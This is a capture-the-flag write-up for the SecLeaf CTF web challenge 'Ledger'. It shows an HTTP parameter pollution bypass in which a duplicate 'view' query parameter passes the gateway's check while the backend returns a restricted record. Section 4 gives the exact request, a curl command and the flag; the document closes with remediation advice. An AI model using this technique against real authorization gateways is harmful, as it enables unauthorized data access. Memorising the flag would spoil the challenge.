

# SecLeaf CTF — Ledger

> **Web Security Challenge Write-up:** HTTP Parameter Pollution (HPP) / Parser Mismatch

---

## Challenge Metadata

| Property | Information |
| :--- | :--- |
| **Challenge Name** | Ledger |
| **CTF Competition** | SecLeaf CTF |
| **Category & Points** | Web Exploitation / 100 Points (24 Solves) |
| **Author** | 5h1kh4r |
| **Target Endpoint** | `https://ledger.secleaf.xyz/` |
| **Vulnerability Class** | HTTP Parameter Pollution (HPP) / Parser Precedence Mismatch |
| **Retrieved Flag** | `SecLeaf{ledger_8dfe7383f5657393289a132423dfeaf5be6f}` |

---

## 1. Executive Summary

The **"Ledger"** challenge presents a modern archive web application named **"Ledger Room"**. While public archive records are freely accessible, privileged revisions containing sensitive investigation tokens are restricted. 

The application architecture utilizes an intermediary authorization gateway that inspects incoming requests before proxying them to an internal rendering backend. 

Due to an architectural **HTTP Parameter Pollution (HPP)** discrepancy:
- The **authorization gateway** evaluates user permissions based on the **first** occurrence of the `view` parameter.
- The **downstream rendering engine** resolves data based on the **last** occurrence of the `view` parameter.

By supplying duplicate query parameters (`?view=public&view=restricted`), an attacker satisfies the gateway check while forcing the backend renderer to return the protected record and reveal the CTF flag.

---

## 2. Initial Reconnaissance & Architecture

Accessing `https://ledger.secleaf.xyz/` presents the challenge objective:

> *"CASE FILE 08 / ARCHIVE CONSISTENCY  
> Nothing disappears. It just changes views.  
> **Objective:** Recover the evidence token from the protected revision of record RD-947. Submit it as a normal CTFd flag. No brute force is required."*

The web interface exposes an archive viewer with two interactive actions:

* **Load public record:** Queries `/api/records/RD-947?view=public` $\rightarrow$ Returns standard public metadata.
* **Attempt restricted view:** Queries `/api/records/RD-947?view=restricted` $\rightarrow$ Triggers an HTTP authorization error, denying access to unauthenticated clients.

---

## 3. Source Code Review & Root Cause Analysis

Inspecting the client-side JavaScript bundle (`/static/app.js`):

```javascript
'use strict';
// The archive client always requests its public view by default.
// The renderer selects the last supplied `view` while the gateway checks the first.
const output = document.getElementById('result');

async function show(path) {
  try {
    const response = await fetch(path, { credentials: 'same-origin' });
    output.textContent = `HTTP ${response.status}\n` + JSON.stringify(await response.json(), null, 2);
  } catch (error) { 
    output.textContent = String(error); 
  }
}

document.getElementById('load').addEventListener('click', () => show('/api/records/RD-947?view=public'));
document.getElementById('restricted').addEventListener('click', () => show('/api/records/RD-947?view=restricted'));
```

### Architectural Flaw Breakdown

The embedded code comment directly highlights the parsing divergence:
> *"The renderer selects the last supplied `view` while the gateway checks the first."*

In distributed and multi-tier web applications, different HTTP parsers handle duplicate query parameters differently:

| Parser Component | Parameter Precedence | Behavior |
| :--- | :--- | :--- |
| **API Gateway / Reverse Proxy** | **First Parameter** | Validates `view=public` and allows the request downstream. |
| **Internal Renderer Backend** | **Last Parameter** | Overwrites earlier values with `view=restricted` and fetches protected data. |

### Attack Flow



---

## 4. Exploitation & Proof of Concept (PoC)

To bypass the authorization gate and extract the restricted record, craft a request containing duplicate `view` keys:

```text
/api/records/RD-947?view=public&view=restricted
```

1. **Gateway Check:** Inspects `view=public` $\rightarrow$ Access Granted.
2. **Renderer Handling:** Evaluates `view=restricted` $\rightarrow$ Renders protected revision.

### Exploitation via `curl`

```bash
curl -sSL -i "https://ledger.secleaf.xyz/api/records/RD-947?view=public&view=restricted"
```

### Server Response

```http
HTTP/1.1 200 OK
Server: nginx
Content-Type: application/json
Content-Length: 129
Connection: keep-alive
X-CTF-Session: c1d384454cc04ce2fc261b39
X-CTF-Probe: duplicate-view
X-Content-Type-Options: nosniff

{
  "evidence_token": "SecLeaf{ledger_8dfe7383f5657393289a132423dfeaf5be6f}",
  "id": "RD-947",
  "status": "recovered",
  "view": "restricted"
}
```

---

## 5. Challenge Flag

> [!IMPORTANT]
> **Final Flag:** `SecLeaf{ledger_8dfe7383f5657393289a132423dfeaf5be6f}`

---

## 6. Remediation & Defensive Best Practices

To secure multi-tiered web architectures against HTTP Parameter Pollution:

1. **Reject Duplicate Parameters at Edge:**  
   Configure the API Gateway or WAF to validate query string uniqueness. If duplicate keys are encountered, immediately terminate the connection with `400 Bad Request`.
2. **Normalize Query Strings Downstream:**  
   If duplicates cannot be rejected, normalize and rewrite the parameter list at the gateway level so downstream backends only receive the single, verified key-value pair.
3. **Enforce Service-Level Authorization:**  
   Avoid relying on client-controllable query parameters (`?view=restricted`) for authorization boundaries. Enforce permissions using authenticated session context, JWT claims, or RBAC at the service layer that retrieves the sensitive resource.

---

## 7. Conclusion

The **"Ledger"** challenge clearly demonstrates the danger of **parser differentials** across microservices. When boundary security controls and backend processing logic disagree on how HTTP inputs are interpreted, even properly implemented security checks can be completely subverted.
